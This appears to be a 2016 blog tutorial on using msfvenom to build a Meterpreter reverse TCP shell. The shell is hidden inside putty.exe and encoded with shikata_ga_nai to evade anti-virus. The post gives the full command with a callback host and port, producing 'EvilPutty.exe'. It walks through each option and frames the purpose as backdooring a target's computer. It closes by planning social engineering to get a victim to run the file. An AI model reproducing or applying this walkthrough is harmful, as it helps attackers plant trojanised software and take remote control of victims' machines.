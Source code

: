 ```yaml
---
layout: post
title: "msfvenom walkthrough"
subtitle: "how-to create a payload"
date: 2016-03-22
background: '/PATH_TO_IMAGE'
---
```

![alt text](http://www.interpretermag.com/wp-content/uploads/2014/03/hacker-grenade.jpg "Logo Title Text 1")

## How to create a payload with MSF Venom
Hello 1337 newbs. Today we will go over how to create and obfuscate a reverse TCP shell through MSF Venom. I will be using Kali 2.0 to complete this so feel free to follow along.

To launch a successful attack you will need to be able to bypass anti-virus software or other host-based protection for successful exploitation. The most effective way to avoid anti-virus detection on your target’s computers is to create your own customized back-door. We can leverage the built in ability to obfuscate payloads within commonly used files. In this example I will use putty.exe to supply the payload and we will use MSF Venom's encoder to hide the payload from Anti-virus.

#### Disclaimer - This method will probably not bypass an up to date anti-virus

### MSF Venom
msfvenom is a combination of Msfpayload and Msfencode, putting both of these tools into a single Framework instance. Note: msfvenom has replaced both msfpayload and msfencode as of June 8th, 2015.


```
$ msfvenom --help
MsfVenom - a Metasploit standalone payload generator.
Also a replacement for msfpayload and msfencode.
Usage: /usr/bin/msfvenom [options] <var=val>

Options:
    -p, --payload       <payload>    Payload to use. Specify a '-' or stdin to use custom payloads
        --payload-options            List the payload's standard options
    -l, --list          [type]       List a module type. Options are: payloads, encoders, nops, all
    -n, --nopsled       <length>     Prepend a nopsled of [length] size on to the payload
    -f, --format        <format>     Output format (use --help-formats for a list)
        --help-formats               List available formats
    -e, --encoder       <encoder>    The encoder to use
    -a, --arch          <arch>       The architecture to use
        --platform      <platform>   The platform of the payload
        --help-platforms             List available platforms
    -s, --space         <length>     The maximum size of the resulting payload
        --encoder-space <length>     The maximum size of the encoded payload (defaults to the -s value)
    -b, --bad-chars     <list>       The list of characters to avoid example: '\x00\xff'
    -i, --iterations    <count>      The number of times to encode the payload
    -c, --add-code      <path>       Specify an additional win32 shellcode file to include
    -x, --template      <path>       Specify a custom executable file to use as a template
    -k, --keep                       Preserve the template behavior and inject the payload as a new thread
    -o, --out           <path>       Save the payload
    -v, --var-name      <name>       Specify a custom variable name to use for certain output formats
        --smallest                   Generate the smallest possible payload
    -h, --help                       Show this message
```
    
Lets take a look at some useful options
    
* -p designates the Metasploit payload we want to use
* -e designates the encoder we want to use
* -a designates the architecture we want to use (default is x86)
* -s designates the maximum size of the payload
* -i designates the number of iterations with which to encode the payload
* -x designates a custom executable file to use as a template ```

## Encoders
Encoders are the various algorithms and encoding schemes that Metasploit can use to re-encode the payloads.
We can looks at these by typing

```
$ msfvemon -l encoders
Framework Encoders
==================

    Name                          Rank       Description
    ----                          ----       -----------
    cmd/echo                      good       Echo Command Encoder
    cmd/generic_sh                manual     Generic Shell Variable Substitution Command Encoder
    cmd/ifs                       low        Generic ${IFS} Substitution Command Encoder
    cmd/perl                      normal     Perl Command Encoder
    cmd/powershell_base64         excellent  Powershell Base64 Command Encoder
    cmd/printf_php_mq             manual     printf(1) via PHP magic_quotes Utility Command Encoder
    generic/eicar                 manual     The EICAR Encoder
    generic/none                  normal     The "none" Encoder
    mipsbe/byte_xori              normal     Byte XORi Encoder
    mipsbe/longxor                normal     XOR Encoder
    mipsle/byte_xori              normal     Byte XORi Encoder
    mipsle/longxor                normal     XOR Encoder
    php/base64                    great      PHP Base64 Encoder
    ppc/longxor                   normal     PPC LongXOR Encoder
    ppc/longxor_tag               normal     PPC LongXOR Encoder
    sparc/longxor_tag             normal     SPARC DWORD XOR Encoder
    x64/xor                       normal     XOR Encoder
    x86/add_sub                   manual     Add/Sub Encoder
    x86/alpha_mixed               low        Alpha2 Alphanumeric Mixedcase Encoder
    x86/alpha_upper               low        Alpha2 Alphanumeric Uppercase Encoder
    x86/avoid_underscore_tolower  manual     Avoid underscore/tolower
    x86/avoid_utf8_tolower        manual     Avoid UTF8/tolower
    x86/bloxor                    manual     BloXor - A Metamorphic Block Based XOR Encoder
    x86/call4_dword_xor           normal     Call+4 Dword XOR Encoder
    x86/context_cpuid             manual     CPUID-based Context Keyed Payload Encoder
    x86/context_stat              manual     stat(2)-based Context Keyed Payload Encoder
    x86/context_time              manual     time(2)-based Context Keyed Payload Encoder
    x86/countdown                 normal     Single-byte XOR Countdown Encoder
    x86/fnstenv_mov               normal     Variable-length Fnstenv/mov Dword XOR Encoder
    x86/jmp_call_additive         normal     Jump/Call XOR Additive Feedback Encoder
    x86/nonalpha                  low        Non-Alpha Encoder
    x86/nonupper                  low        Non-Upper Encoder
    x86/opt_sub                   manual     Sub Encoder (optimised)
    x86/shikata_ga_nai            excellent  Polymorphic XOR Additive Feedback Encoder
    x86/single_static_bit         manual     Single Static Bit
    x86/unicode_mixed             manual     Alpha2 Alphanumeric Unicode Mixedcase Encoder
    x86/unicode_upper             manual     Alpha2 Alphanumeric Unicode Uppercase Encoder
```
We will use x86\shikate_ga_nai in our example

## Building the Payload

I will start with our completed command and we then we will analyze each option in more detail.

```
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 20 -b '\x00'-a x64 LHOST=10.1.10.2 LPORT=443 -x ~/Windows/Programs/putty.exe -f exe > ~/payloads/windows/EvilPutty.exe
```
* -p windows/meterpreter/reverse_tcp
  * Payload to use. A list can be found by using the command ```msfconsole``` and then entering ```show payloads``` at the msfconsole prompt.
* -e x86/shikata_ga_nai
  * Encoder - This is the algorithm that is used to encode your shell code in attempts to bypass anti-vurs. shikata_ga_nai is a polymorphic shell code encoder. More can be read about it on the web.
* -i 20
  * Iterations - this is the number of time your payload will be encoded.
* -b 
  * Bad Characters - A bad character is simply a list of unwanted characters that can break the shell codes. Depending on the application and the developer logic there is a different set of bad characters for every program that we would encounter. Some common ones include
    * 00 for NULL
    * OA for Line Feed \n
    * OD for Carriage Return \r
    * FF for Form Feed \f
* -a x86
  * This is the architecture of the program we are hiding our payload in.
* LHOST=
  * Listening Host - This will be the IP that we want our reverse TCP shell to call back too.
* LPORT=
  * Listening Port - This will be the port our host is listening on.
* -x ~/windows/Programs/putty.exe
  * Template - This is the path to the program we want to use as a template.
* -f 
  * Format - This is the output format we want.
* \> ~/payloads/windows/EvilPutty.exe
  * This is the output file.
 
# Wrapping it up
Although this method might not work every time, there is a very good possibility that the victim might not have anti-virus installed or turned on their machine. The next step would be coming up with a way to get someone to run this payload. There are many ways to do this. Next time we will cover some ways to social engineer someone to run this payload on their machine for you.
